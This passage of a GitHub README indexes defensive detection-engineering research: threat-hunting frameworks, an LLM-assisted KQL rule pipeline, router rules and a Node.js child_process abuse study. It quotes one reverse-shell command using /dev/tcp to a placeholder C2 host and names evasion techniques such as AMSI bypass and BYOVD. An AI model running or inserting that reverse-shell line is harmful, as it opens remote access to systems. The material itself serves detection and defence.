Built around the intersection of **PEAK** (Prepare → Execute → Act), **TAHITI** (Target → Approach → Hunting → Identify → Triage → Investigate), and the **Minimum Truth Detection Framework** — with the MTF as the content doctrine and PEAK/TAHITI as the operational scaffolding — this document answers the questions that most detection programmes never formally address: *What is the minimum evidence of truth? When does a hypothesis become a rule? How does novel threat intelligence get translated into production-grade detection?*

Practical hunt playbooks cover the scenarios most defenders encounter but few have documented at this level of rigour: pre-encryption convergence hunting for LockBit-family ransomware, proactive permission and ACL exposure discovery, file share enumeration and exfiltration surface mapping, and credential file exposure hunts — including the `password.xls` class of misconfiguration that sits quietly on shares until an attacker with any foothold finds it first. A complete novel threat onboarding workflow demonstrates the full process end-to-end using InvisibleFerret (Void Dokkaebi, 2026) as the worked example.

**Covers:** Core distinction between threat hunting and detection engineering with decision matrix · PEAK lifecycle applied to MTF with worked examples · TAHITI process model with per-phase KQL guidance · Hunt-to-composite promotion pipeline with gate criteria · Badge assignment decision logic (KQL ADX Validated · PEAK/TAHITI Aligned · Cousin Technique Doctrine · MDE · Sentinel · Novel Tradecraft) · LockBit pre-encryption convergence hunt · Permission and file share exposure hunts · Password file exposure hunt (`password.xls`, credential naming patterns) · Novel threat onboarding workflow from intelligence to composite rule · Rule quality rubric — eight checks before production promotion

📄 **[Threat-Hunting-Vs-Detection-Engineering.md](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/blob/main/Threat-Hunting-Vs-Detection-Engineering.md)**

---

### 09 · AI-Accelerated Attack Surface Evolution — Composite Behavioural Detection in the Age of Polymorphic Malware

> *"The binary changes. The hash changes. The signature mutates. But to achieve the operational goal — the attacker must still load the driver, touch LSASS, or establish the pipe. That behavioural truth is what we anchor on. Everything else is noise."*

Signature-based detection is built on a premise AI has now structurally invalidated: that knowing what an attack *looks like* is sufficient to detect it. An LLM can generate a unique, syntactically valid, functionally equivalent payload variant in seconds — targeting your specific detection rules, rotating obfuscation patterns, and automating the evasion iteration cycle that previously took skilled operators days. **Hash blocklists cannot keep pace. Byte-flip polymorphism preserves valid driver signatures while defeating every blocklist simultaneously. The only viable anchor is what the attack must *do*.**

This document applies the Minimum Truth doctrine to the most critical AI-accelerated attack classes: **SilverFox / ValleyRAT BYOVD** — a Chinese-nexus campaign using byte-flip mutation to produce unique-hash, valid-signature kernel driver variants per campaign; **PowerShell Empire AI-assisted stagers** with automated AMSI bypass and obfuscation rotation; **WMI Fileless Persistence** exploiting the DLL load substrate that survives every command-line evasion; and **OAuth Consent Abuse** where AI generates optimised phishing lures and selects high-risk permission scopes calibrated to evade detection thresholds. For each chain, the document provides a three-tier composite detection architecture — hash-invariant, signature-invariant, binary-invariant — anchored on the behavioural sequence that AI cannot mutate away.

**Covers:** AI capability shifts in offensive security · Byte-flip polymorphism vs classical mutation · Command-line execution evasion timeline (2015–2026) · SilverFox / ValleyRAT three-tier BYOVD detection (Tier 1 atomic → Tier 2 chain → Tier 3 full kill-chain) · Empire PowerShell stager composite · WMI fileless scrcons.exe substrate sensor · OAuth consent abuse with production bug fixes applied · STRIDE threat modelling methodology alignment · PEAK / NIST CSF / OWASP LLM Top 10 framework mapping · Cousin technique coverage table with AI evasion resistance analysis

📄 **[AI_Accelerated_Attack_Surface_Evolution.md](https://github.com/azdabat/-AI-LLM-Autonomous-Systems/blob/main/AI-Accelerated%20Attack%20Surface%20Evolution.md)**

---
### 10 · Advanced Threat Hunting — Senior Analyst Reference: Detection, Investigation & Incident Response

> *"Threat hunting is not the absence of alerts. It is the deliberate search for adversary behaviour that has not yet produced an alert — and the engineering of detections so that next time, it does."*

Advanced threat hunting operates at the intersection of telemetry analysis, adversary tradecraft, and detection engineering. This repository documents a complete senior analyst reference for hunting and investigating the most evasion-resistant threats in the 2026 landscape — techniques that survive signature-based controls, bypass usermode EDR hooks, operate entirely within legitimate system infrastructure, or route command-and-control through public internet services that cannot be blocklisted.

The threats covered represent the current frontier of EDR evasion: **SilverFox / ValleyRAT BYOVD** — where byte-flip polymorphism produces unique-hash, valid-signature kernel drivers per campaign, and a confirmed kernel load means the EDR is already blind before the alert fires; **EtherRAT blockchain C2** — where the command channel is the public Ethereum blockchain and no suspicious IP or domain ever exists; **Kerberoasting and AS-REP Roasting** — pure Active Directory protocol abuse with no malicious binary, no suspicious process, and no network anomaly detectable without identity telemetry; **Living-off-the-land fileless execution chains** including direct syscall bypass, process hollowing, and reflective injection hidden inside legitimate signed processes; **AI-assisted supply chain compromise** targeting CI/CD pipelines and package registries; and **MFA fatigue and PPL bypass** — two of the highest-impact, lowest-visibility techniques active in enterprise environments in 2026.

Every threat is covered with a full investigation methodology: hypothesis formation, MDE Advanced Hunting and Microsoft Sentinel KQL queries, Mermaid attack chain diagrams, cousin technique mapping, attack timeline reconstruction, blast radius assessment, and the complete senior incident response lifecycle from triage to detection engineering. The repository also includes a comprehensive README covering PEAK and TAHITI hunt framework alignment, the MTDF minimum truth doctrine applied to hunting, telemetry gap analysis, entity key pivot methodology, and the detection improvement loop that converts every confirmed incident into a production composite rule.

**Covers:** BYOVD kill chain hunting · EtherRAT beacon interval analysis · Kerberoasting RC4 volume detection · LOLBin parent-child chain mapping · Direct syscall bypass indicators · Supply chain CI/CD compromise · MFA fatigue pattern detection · PPL bypass and LSASS access sequences · Master timeline builder KQL · Blast radius assessment queries · IR decision trees · PEAK / TAHITI / MTDF framework alignment · Telemetry gap analysis · Hidden-in-legitimate-file technique catalogue

📄 **[Advanced\_Threat\_Hunting\_RD.md](https://github.com/azdabat/Threat-Hunting/blob/main/Advanced%20Threat%20Hunting.md)** · **[README.md](https://github.com/azdabat/Threat-Hunting/tree/main)**

---

### 11 · MTDF AI Copilot — Agentic Detection Engineering Pipeline: Architecture, Implementation & Operational Guide

> *"The Copilot does not replace the detection engineer. It accelerates them — enforcing doctrine, preventing implementation bugs, and generating schema-precise rule scaffolds that the engineer validates, calibrates, and commits."*

Detection engineering at scale requires simultaneous mastery of five domains: schema precision, KQL engine behaviour, detection doctrine, adversary tradecraft, and operational constraints. Without tooling, even experienced engineers produce rules that are logically correct but technically flawed, or technically correct but doctrinally wrong. The five production bug classes documented in the MTDF engineering errors reference were all found in rules written without automated doctrine enforcement. This R&D document is the master reference for the MTDF AI Copilot — an agentic LLM detection engineering pipeline that solves this problem end-to-end.

The pipeline runs **AnythingLLM desktop** as the orchestration and RAG layer, backed by **Claude Sonnet 4.6 via the Anthropic API** at temperature=0 for deterministic output, with a nine-section v4 system prompt that enforces the complete MTDF doctrine as non-negotiable operating constraints. The workspace carries the full MDE and Sentinel schema reference, all five skeleton templates, Empire C2 attack telemetry as RAG-accessible signal documents, and validated production rules as quality calibration examples. The model cannot generate a rule without first declaring the anchoring strategy, selecting the correct skeleton, stating the minimum truth anchor, and documenting the minimum fire path — and cannot skip any of the ten production engineering rules derived from the systematic bug review.

This document covers the complete operational guide for the pipeline: the architecture and component decisions, why Ollama local models were abandoned in favour of the Claude API, the full v4 system prompt design rationale section by section, workspace configuration, and five reusable prompt templates for every rule generation scenario — Intent-First, Substrate-First, Sentinel, multi-platform, and the master Empire kill chain prompt that generates nine production-candidate rules in sequence. It documents all seven failure modes with correction prompts that can be sent immediately when a violation is detected, and explains exactly how to validate generated rules — the answer to whether AnythingLLM can test rules against injested Empire telemetry (it cannot — it is a RAG system, not a query engine), and the full step-by-step guide for ADX-Docker validation covering both the Azure free cluster path and the fully local Docker path, including table creation commands, JSON ingestion mapping, rule adaptation for static telemetry, and what a valid production receipt looks like. The document closes with the incremental fine-tuning model — how validated rules are fed back into the workspace as quality examples, how the system prompt is versioned as the rule library grows, and the complete eleven-step workflow from prompt to GitHub commit.

**Covers:** Pipeline architecture · ADX-Docker vs AnythingLLM validation · System prompt v4 design · Ten engineering rules rationale · Five reusable prompt templates · Master Empire kill chain prompt · Seven failure modes + correction prompts · ADX free cluster setup · ADX Docker local setup · KQL table creation commands · JSON telemetry ingestion guide · Production receipt standard · System prompt versioning · Quality calibration accumulation · Session management best practices

📄 **[MTDF_Copilot_RD.md](https://github.com/azdabat/-AI-LLM-Autonomous-Systems/blob/main/MTDF%20AI%20Copilot%20%E2%80%94%20R%26D%20Master%20Documen.md)**


---

### 11 · MTDF AI Copilot — Agentic Detection Engineering Pipeline: Architecture, Implementation & Operational Guide

> *"The Copilot does not replace the detection engineer. It accelerates them — enforcing doctrine, preventing implementation bugs, classifying rule architecture before generating, and producing scaffolds that the engineer validates, calibrates, and commits."*

Detection engineering at scale requires simultaneous mastery of five domains: schema precision, KQL engine behaviour, detection doctrine, adversary tradecraft, and operational constraints. Without tooling, even experienced engineers produce rules that are logically correct but technically flawed, or architecturally wrong for their operational purpose. The MTDF AI Copilot solves this by operating as a doctrine-enforcement and classification engine built on AnythingLLM desktop, Claude Sonnet 4.6 via the Anthropic API at temperature=0, and a ten-section v5 system prompt with a mandatory rule classification protocol that runs before a single line of KQL is written.

The classification protocol is the architectural core of v5. Five questions are asked before every rule generation — scope, noise domain, fidelity requirement, telemetry availability, and operational context — each with a clear explanation of why it is being asked and what the answer means architecturally. The answers determine which of five architectures is declared: Composite Sensor (base 55, threshold 75, HunterDirective), Router Rule (base 0, threshold 30, RoutingDirective), Composite Pack, Hunt Query, or Router + Composite Pair. The ingress tool transfer case study — Hunt Pack 04 covering bitsadmin, certutil, curl, and PowerShell — is the canonical example of why a router rule is correct when multiple techniques have different noise domains, and why the T1197 BITSAdmin composite sensor must be built separately and retire bitsadmin from the router once ADX-validated.

The R&D document covers the full pipeline: why Ollama local models were abandoned, the v4 to v5 system prompt evolution, the workspace configuration with Empire telemetry as RAG documents, five reusable prompt templates for every rule generation scenario, eight failure modes with precise correction prompts, the definitive answer on why AnythingLLM cannot test KQL rules against ingested telemetry, step-by-step ADX validation via both Azure free cluster and local Docker including table creation commands and telemetry ingestion mapping, the incremental fine-tuning model as validated rules accumulate as workspace quality examples, and the complete eleven-step workflow from classification to GitHub commit.

**Covers:** Classification protocol · Router vs Composite architecture decision · Five reusable prompt templates · Eight failure modes + correction prompts · ADX-Docker validation step-by-step · AnythingLLM workspace configuration · Ten engineering rules rationale · Incremental fine-tuning model · Session management · Version history v1–v5

📄 **[MTDF_Copilot_RD_v2.md](https://github.com/azdabat/-AI-LLM-Autonomous-Systems/blob/main/Router%20Rule%20-%20R%26D%20Master%20Document.md)**
****

---

### 12 · Router Rules — How Sensors Become Incidents: The Attack Narrative Pipeline

> *"Router rules detect intent. Ecosystem composites confirm truth. A router rule that is never retired is coverage debt, not architecture."*

In production detection estates, a second class of rules operates alongside composite sensors — rules that exist not to confirm a specific minimum truth, but to cast a wide surface across multiple techniques that share the same adversary goal while having fundamentally different noise domains. These are Router Rules: the architectural mechanism that prevents the two worst outcomes in enterprise detection engineering — the monolithic rule that combines incompatible techniques and cannot be tuned without creating blind spots, and the coverage gap that exists while dedicated composites are being built and validated.

This document is the complete reference for the Router Rule doctrine within the Minimum Truth Detection Framework. It establishes why the ingress tool transfer case study — bitsadmin, certutil, curl, and PowerShell grouped together in Hunt Pack 04 — is the canonical example of a valid router rule. Each tool operates in a completely different enterprise noise domain: bitsadmin in SCCM and Windows Update contexts, certutil in developer PKI tooling, curl in DevOps CI/CD pipelines. Combining them in a composite sensor produces a rule that cannot suppress SCCM false positives without creating blind spots for developer abuse, and cannot tune for DevOps noise without hiding the most suspicious signals. The router rule covers all four with a base score of zero, a threshold of 30, and a RoutingDirective that tells the analyst which dedicated composite to run per signal type — with a live decomposition tracker documenting when each technique should be retired from the router as its composite is ADX-validated.

The document covers the two-rule-type architecture in full: the scoring model difference between base 0 (router) and base 55 (composite), the interaction model showing how a router and composite work as a pipeline rather than competitors, the complete router rule template with decomposition tracker, the validity criteria defining when a router rule is architecturally appropriate and when it is not, and the sequence diagram showing how router breadth and composite depth stitch together at the incident layer via entity keys.

**Covers:** Router Rule doctrine · Two-rule-type architecture · Ingress tool transfer case study · Decomposition tracker · Routing directive vs Hunter directive · Scoring architecture difference (base 0 vs base 55) · Validity criteria · Router + Composite interaction model · Coverage debt vs coverage architecture · Retirement workflow

📄 **[Router Rules Inclusive Framework.md](https://github.com/azdabat/Router-Rule-Franework)**


---

### 13 · MTDF AI Copilot — Agentic Detection Engineering Pipeline: The Complete Empire LLM Framework

> *"The Copilot does not replace the detection engineer. It accelerates them — enforcing doctrine, classifying rule architecture before generating, asking every question the engineer should ask but rarely has time to, and producing scaffolds that the engineer validates, calibrates, and commits."*

The Empire LLM Framework is the operational AI infrastructure that powers the Minimum Truth Detection Framework. It consists of two connected AnythingLLM workspaces running Claude Sonnet 4.6 at temperature=0 via the Anthropic API — one dedicated to structured threat hunting under the PEAK/TAHITI methodology, one dedicated to production detection engineering under the full MTDF three-layer inference spectrum. Together they cover the complete detection lifecycle: from initial threat hypothesis through validated hypothesis, through primitive collector, through router rule, through ADX-validated composite sensor, to production deployment.

The Engineering Workspace (Empire_LLM_Framework) runs the MTDF v6 system prompt — 815 lines covering seven detection architectures, six skeleton templates, ten non-negotiable engineering rules, the cousin technique doctrine, the Empire C2 telemetry context, full MDE and Sentinel schema reference, and the complete three-layer classification protocol. Before generating a single line of KQL, the Copilot runs five classification questions — minimum observable fact, inference depth, noise domain, existing coverage status, and output action — then declares the architecture, skeleton, base score, threshold, inference depth, lifecycle, and decomposition tracker update requirements in a formal pre-flight declaration. The three non-negotiable scoring rules (Primitive: no score/no threshold/no summarise; Router Rule: base 0/threshold ≤ 30; Composite Sensor: base 55/threshold ≥ 75) are enforced throughout every output.

The Hunt Workspace (MTDF_Hunt_PEAK_TAHITI) runs a dedicated 799-line system prompt structured around the PEAK framework (Pattern/Entity/Anomaly hunt types) and the TAHITI six-phase hunt lifecycle (Trigger → Hypothesis → Data → Analysis → Iterate → Outcome). Before generating any hunt query, the Copilot presents a six-question Hunt Intake Form — trigger classification, technique specification, falsifiable hypothesis construction, telemetry confirmation, scope definition, and promotion intent — then outputs a Hunt Brief and generates Architecture 4 Hunt Queries with full analyst notes, noise indicators, pivot recommendations, and promotion triggers. At TAHITI T6 (True Positive outcome), the Copilot generates a formal Promotion Package with the five engineering classification questions pre-answered from the hunt findings, the noise profile for the composite suppression model, and the recommended MTDF architecture — designed to be pasted directly into the Engineering Workspace as opening context.

The R&D document is the bible for the complete framework. It covers why two workspaces are better than one, the three-layer inference spectrum with all diagrams, the complete architecture decision flowchart, the noise domain decision table, both workspace configurations with RAG document lists, the promotion pipeline from hunt finding to production deployment, and a full end-to-end simulated scenario: a ransomware TTP from threat intelligence report through PEAK Entity hunt, TAHITI six-phase lifecycle, True Positive finding, Promotion Package generation, Engineering Workspace pre-flight declaration, Primitive Collector KQL, production Composite Sensor KQL with four-phase MTDF structure and full scoring decision table, router rule decomposition tracker update, and the final pipeline diagram showing how all three layers stitch at the incident layer via entity keys.

**Covers:** Two-workspace architecture · PEAK/TAHITI hunt methodology · Three-layer inference spectrum (Primitive/Router/Composite) · Seven detection architectures · Six skeleton templates · Five classification questions · Six-question hunt intake form · Hunt-to-composite promotion pipeline · Promotion Package format · Full end-to-end simulated scenario with KQL · Noise domain decision table · ADX validation workflow · Workspace configuration · Version history v1–v6

📄 **[MTDF AI Copilot — R&D Master Document v2.md](https://github.com/azdabat/-AI-LLM-Autonomous-Systems/blob/main/MTDF%20AI%20Copilot%20%E2%80%94%20R%26D%20Master%20Document%20v2.md)**

---
### 14 · Node.js Child Process Abuse — Tradecraft Study, Attack Analysis & Full MTDF Detection Architecture

> *"Node.js is not a malware delivery vehicle. It is a trusted runtime that attackers weaponise. The minimum truth is not the JavaScript — it is what the JavaScript spawns."*

Node.js powers a significant proportion of modern web infrastructure, and its `child_process` module — which allows JavaScript to execute arbitrary system commands — represents one of the most exploited attack surfaces in web application security. This study examines how adversaries identify Node.js backends, exploit them through five distinct code execution vectors, and weaponise the `child_process` module to deliver reverse shells and remote access payloads across both Linux and Windows environments.

The study provides a complete dissection of the five primary exploitation vectors: Server-Side JavaScript Injection via `eval()` and `new Function()`, Prototype Pollution through vulnerable recursive merge functions (including the full EJS template engine RCE chain from `__proto__.escapeFunction` through `new Function()` execution), deserialisation attacks via `node-serialize`, command injection through unsanitised `exec()` string concatenation, and supply chain compromise through malicious `postinstall` hooks. Each vector is analysed at the payload level — including the TCP socket redirection anatomy of the classic `bash -i >& /dev/tcp/C2/PORT 0>&1` reverse shell — with full attack chains illustrated in Mermaid sequence and flow diagrams.

The detection architecture applies the Minimum Truth Detection Framework across the complete three-layer inference spectrum. The minimum truth across all five attack vectors is identical regardless of exploitation method: `node.exe` or `node` spawning a dangerous child process with RCE-indicative command-line content. This architectural invariant makes detection resilient to payload variation — the JavaScript exploit changes but the telemetric substrate does not. Four production rules are delivered: a permanent 30-day Primitive Collector for retrospective incident stitching, a cross-platform Composite Sensor (base 55, threshold 75) covering Linux reverse shells, pipe-to-shell download chains, and Windows PowerShell cradles, a Router Rule with full decomposition tracker routing by child tool noise domain (bash/curl/python/PowerShell each requiring separate suppression models), and a PEAK/TAHITI Architecture 4 Hunt Query with signal tagging for proactive estate-wide hypothesis validation.

Each rule includes complete MTDF annotations — scoring decision tables, minimum fire path arithmetic, cousin technique ecosystem mapping, and HunterDirective branching with SOC escalation guidance. Schema confidence notes and the no-ghost-chains independence doctrine are enforced throughout. The study concludes with a cousin technique build roadmap covering PHP `exec()`, Python `subprocess`, and Java `Runtime.exec()` abuse as the nearest adjacent sensors in the web application runtime RCE ecosystem.

**Covers:** Node.js reconnaissance fingerprinting · SSJI via eval() · Prototype pollution to EJS RCE · Deserialisation attacks · Command injection · Supply chain postinstall hooks · Bash reverse shell anatomy · Download-and-execute chains · Windows PowerShell cradle from Node · Primitive Collector (Architecture 6) · Composite Sensor (Architecture 1) · Router Rule with decomposition tracker · PEAK/TAHITI Hunt Query · Cousin technique ecosystem · Application hardening recommendations

📄 **[NodeJS_ChildProcess_RCE_Study.md](https://github.com/azdabat/MTDF-Copilot-Framework/blob/main/NodeJS_ChildProcess_RCE_Study.md)**


---

## 🗺️ God Mode Composite Roadmap

**[→ OPEN INTERACTIVE ROADMAP](https://azdabat.github.io/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/index.html)**

The God Mode Composite Roadmap is the capstone artefact of the Minimum Truth Detection Framework — a complete, interactive reference mapping every major ATT&CK tactic to its **core baseline composite rule**, its **cousin technique ecosystem**, and a **full red team breakdown** of how each attack is deployed in the real world.

This is not a vendor rule pack or an ATT&CK navigator heatmap. It is a living R&D document that answers three questions for every detection:

- **Why is this composite shaped this way?** — the blue team rationale, minimum truth anchor, and reinforcement signal logic
- **How does an attacker actually deploy this technique?** — CEH/OSCP level methodology, tool names, real malware families, full kill chain position
- **What are the cousin attack surfaces?** — adjacent techniques that share substrate or intent primitives, each with their own composite and red team context

### Coverage

| Tactic | Core Composites | Cousin Rules |
|---|---|---|
| Execution | PowerShell, WMI, LOLBins | AMSI bypass, download cradles, mshta, rundll32, regsvr32 |
| Persistence | Registry run keys, WMI subscriptions | Scheduled tasks, DLL sideloading |
| Privilege Escalation | Process injection, token theft | UAC bypass, fodhelper chain |
| Defense Evasion | BYOVD, EDR kill chain | Byte-flip mutation, callback deregistration |
| Credential Access | LSASS memory dump | DCSync, Kerberoasting |
| Discovery | Velocity sweep composite | BloodHound/LDAP enumeration |
| Lateral Movement | Pass-the-Hash/Ticket | WMI remote execution, Impacket chains |
| Collection | Archive staging | Pre-exfil compression patterns |
| C2 | HTTPS beaconing | DNS tunnelling, blockchain C2 |
| Exfiltration | Volume anomaly | Cloud storage exfil (rclone, MEGAcmd) |
| Impact | Ransomware in-progress | VSS deletion anchor, encryption velocity |
| ★ Novel Research | SilverFox/ValleyRAT BYOVD | EtherRAT blockchain C2, Steganographic loaders |

### 9 Novel Research Tab

The roadmap includes a dedicated tab for original MTDF threat research — families with no vendor rule coverage, fully documented from kill chain through detection engineering:

- **SilverFox / ValleyRAT** — 7-rule, 3-tier detection covering the complete BYOVD EDR kill chain including byte-flip hash mutation defence
- **EtherRAT / React2Shell (CVE-2025-55182)** — Blockchain C2 detection via Ethereum RPC polling; the C2 channel is the public blockchain itself
- **Steganographic Loader Ecosystem** — Multi-phase detection covering LSB image inspection, .NET in-memory execution, and full IR SOP



---

## Current Detection Coverage

> ⚠️ **Maturity notice:** Only rules in `ADX-Tested-Composite-Rules/` are production-grade with ADX validation receipts. All other rules are active research pipeline — treat as engineering artefacts until receipts are present.

| Ecosystem | Minimum Truth Anchor | Status | Maturity |
|---|---|---|---|
| Registry Persistence (Autoruns) | `Run` / `RunOnce` ValueSet | ✅ ADX Validated | HIGH |
| Registry Hijacks (COM / IFEO / AppInit) | Execution Flow Interception | ✅ ADX Validated | MED |
| Scheduled Tasks (CLI) | `schtasks.exe /create` truth | ✅ ADX Validated | HIGH |
| Scheduled Tasks (Silent TaskCache) | TaskCache Registry truth | ⚠️ Tuned | MED |
| SMB + Service Lateral Movement | `services.exe` spawn + SMB inbound | ✅ Empire Validated | HIGH |
| SMB + Scheduled Task Execution | `svchost(Schedule)` + artefacts | ⚠️ POC | MED |
| Credential Access (LSASS) | Dump primitives + access truth | ✅ ADX Validated | MED |
| NTDS / SAM Extraction | Hive / NTDS interaction truth | ✅ ADX Validated | MED |
| OAuth Consent Abuse | Scope grant + baseline deviation | ✅ ADX Validated | HIGH |
| Named Pipe C2 + Lateral Correlation | Pipe rarity + SMB + service convergence | ⚠️ Advanced POC | MED |
| AMSI Bypass + LOLBin C2 | Script host + AMSI tamper truth | ✅ ADX Validated | HIGH |
| BYOVD Kernel Evasion | Driver artefact + EDR termination | ✅ ADX Validated | HIGH |
| Image Steganography Loader Chain | Office/browser → script → image → C2 | ✅ ADX Validated | HIGH |
| Scheduled Task Stego Beacon | `svchost(Schedule)` → image → C2 | ✅ ADX Validated | MED |
| DNS Steganography / Tunnelling | High-entropy subdomain + rate signal | ⚠️ Tuned | MED |
| Certutil LOLBAS Image Decode | `certutil -decode` on image extension | ✅ ADX Validated | HIGH |

---

## Repository Structure

```
Minimum-Truth-Detection-Framework/
│
├── ADX-Tested-Composite-Rules/          ← Production-grade. ADX validated with receipts.
│
├── Threat Hunting And R&D Docs/         ← Purple team playbooks & ecosystem intelligence
│   ├── Advanced Defense Evasion & C2 Detection Pack.md
│   ├── ScheduledTask_Persistence_Ecosystem.md
│   ├── SILVERFOX_VALLEYRAT_BYOVD_Ecosystem.md
│   └── ghost_pixels_purple_team_stego_playbook.md
│
├── Attack-Ecosystems-and-POC/           ← Experimental chains and emerging threat research
│
└── THREAT-MODELLING-SOP-Behavioural-Patch-Resistant-TTPs/
                                         ← Behaviour-first engineering documentation
```

---

## Detection Engineering Architecture: Temporal Deception Defence

Modern adversary tradecraft relies on two compounding problems for defenders:

**Temporal Deception** — C2 jitter, staggered BYOVD deployment, and delayed execution are specifically designed to fracture event sequences that join-dependent rules depend on.

**Substrate Pivoting** — Attackers move laterally across execution substrates (registry → service → WMI → named pipe) to avoid any single telemetry surface being sufficient for detection.

The architecture response is a **hybrid sensor deployment**:



> Separating the **sensor architecture** from **chronological storytelling** achieves scale-safe efficiency. The composite fires on the choke point. The stitching engine assembles the narrative. The analyst receives both simultaneously.

---

## Live MITRE ATT&CK Coverage Map

[](https://azdabat.github.io/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/MITRE-MATRIX.html)

---

## Roles & Engagement

This framework and its published research are directly applicable to:

| Role | What's Relevant |
|---|---|
| Senior Threat Hunter | Production composite hunts, ADX-validated, SOC-ready outputs |
| Detection Engineer | Full methodology from minimum truth to scored output, KQL production rules |
| Purple Team Lead | Offensive mapping + detection logic per technique, exercise scenarios |
| CTI → Detection Translator | Threat cluster profiling (SILVERFOX/VALLEYRAT) translated to hunt rules |
| SOC Architect | Framework methodology, hybrid sensor architecture, noise suppression approach |

**UK-based. Available immediately for:**
- Threat hunting delivery (Microsoft Sentinel / MDE)
- Detection rule engineering and programme uplift
- Sentinel / MDE tuning and composite rule migration
- Purple team exercises with full offensive/defensive documentation

---

<div align="center">

**GitHub:** [github.com/azdabat](https://github.com/azdabat) &nbsp;|&nbsp; **Email:** azdabat193@gmail.com &nbsp;|&nbsp; **Location:** United Kingdom

[](https://github.com/azdabat)
[](mailto:azdabat193@gmail.com)

<br>

*"Translating adversary behaviour into measurable defensive depth."*

</div>
